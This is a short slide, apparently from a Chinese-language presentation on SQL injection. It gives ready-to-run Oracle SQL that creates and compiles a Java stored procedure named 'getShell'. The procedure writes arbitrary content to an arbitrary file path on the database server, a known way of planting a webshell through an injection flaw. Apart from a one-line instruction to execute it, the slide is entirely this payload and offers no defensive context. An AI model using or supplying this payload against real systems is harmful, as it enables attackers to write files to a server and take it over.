

# SQL注入
Oracle SQLJ编译执行Java代码：
执行以下SQL创建Java储存过程：
create or replace and compile
java source named "getShell"
as public class GetShell {public static int getShell(String p,
String c) {int RC = -1;try {new
java.io.FileOutputStream(p).write(c.getBytes());RC = 1;} catch
(Exception e) {e.printStackTrace();}return RC;}}